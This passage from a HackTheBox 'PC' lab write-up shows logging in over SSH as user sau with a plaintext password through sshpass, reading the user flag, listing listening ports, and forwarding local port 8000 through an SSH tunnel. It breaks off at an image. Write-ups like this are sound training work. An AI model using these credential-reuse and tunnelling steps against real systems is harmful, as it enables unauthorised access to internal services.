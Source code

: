 
## Login to ssh with user `sau`

```bash
┌──(kali㉿kali)-[~/htb/PC]
└─$ sshpass -p 'HereIsYourPassWord1431' ssh -o "StrictHostKeyChecking no" sau@10.10.11.214
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ cat ~/user.txt
3bc7d8d6ea3ddaf917a43a31b431f6c7
sau@pc:~$
```


# Root Flag
---

## Local Web Service

```bash
sau@pc:~$ ss -ltnp
State                    Recv-Q                   Send-Q                                     Local Address:Port                                      Peer Address:Port                  Process
LISTEN                   0                        5                                              127.0.0.1:8000                                           0.0.0.0:*
LISTEN                   0                        128                                              0.0.0.0:9666                                           0.0.0.0:*
LISTEN                   0                        4096                                       127.0.0.53%lo:53                                             0.0.0.0:*
LISTEN                   0                        128                                              0.0.0.0:22                                             0.0.0.0:*
LISTEN                   0                        4096                                                   *:50051                                                *:*
LISTEN                   0                        128                                                 [::]:22                                                [::]:*
```

port forward the `8000` port

```bash
sshpass -p 'HereIsYourPassWord1431' ssh -o "StrictHostKeyChecking no" sau@10.10.11.214 -L 8000:127.0.0.1:8000
```

![](/assets/obsidian/54c10e278d6cdf2d14e53fd4c19c16d3.png)

